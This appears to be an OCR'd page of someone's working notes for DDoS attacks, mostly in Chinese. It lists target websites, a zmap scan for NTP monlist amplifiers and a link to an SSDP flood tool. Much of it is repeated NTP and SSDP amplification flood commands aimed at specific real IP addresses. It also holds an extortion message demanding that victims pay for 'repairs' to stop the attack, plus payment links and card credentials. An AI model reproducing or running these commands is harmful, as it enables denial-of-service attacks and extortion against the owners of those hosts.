 











ddos

攻击列表：http://seller.myszt.com/admin/index/index.html http://sztadmin.myszt.com/ http://seller.myszt.com/ https://client.myszt.com/#/login

卡号：COM3 卡密：19280968337 screen zmap -i eth0 -p 123 -M udp --probe-args=file:/root/ntp_123_monlist.pkt -o monlist_fingerprint.txt

使用说明：http://sms.szfangmm.com:3000/oKrYf3CeQbAjM4Sfb36Fx6  手机号

https://web.batchat.com/#/ 蝙蝠

https://site.ip138.com/myszt.com/ 反查

https://www.pay258.xyz/tikuan

https://www.quwan.com.cn/

http://suan.uhu0.com/  ./ntp 43.139.231.101 80 ntpamp.txt 1000 -1 10000

./ntp 120.26.101.206 80 ntpamp.txt 1000 -1 10000

We have conducted security testing on your website and it is currently inaccessible. Please contact us for repairs, otherwise I will continue to attack

./ntp 103.192.208.190 80 ntpamp.txt 1000 -1 10000 https://hz.1md.cn/index/user/user.html

http://d.pigzbj.com/user/bascinfo.html  2024年3月14日10:10:52 有防护

./ntp 120.26.101.206 80 ntpamp.txt 1000 -1 10000

./ntp 8.136.206.80 80 ntpamp.txt 1000 -1 10000

./ntp 47.98.136.133 80 ntpamp.txt 1000 -1 10000

./ntp 104.218.234.93 80 ntpamp.txt 1000 -1 10000

./ntp 104.218.234.93 80 ntpamp.txt 1000 -1 10000. ./ntp 125.77.158.84 80 ntpamp.txt 1000 -1 10000

./ntp 103.40.13.154 80 ntpamp.txt 1000 -1 10000

./ntp 103.192.208.190 80 ntpamp.txt 1000 -1 10000 ./ntp 47.98.136.133 80 ntpamp.txt 1000 -1 10000

https://github.com/Nolovenodie/ssdp-zmap  ssdp

./ssdp 43.228.71.186 80 /home/ntpamp.txt 1000

./ntp 123.129.241.15 80 ntpamp.txt 1000 -1 10000

/home/ssdp/ssdp-zmap-main/ssdp 43.228.71.186 80 /home/ntpamp.txt 1000

./ssdp 43.139.231.101 80 /home/ntpamp.txt 1000

./ntp 43.228.71.186 80 ntpamp.txt 1000 -1 10000

./ntp 23.225.192.35 80 ntpamp.txt 1000 -1 10000
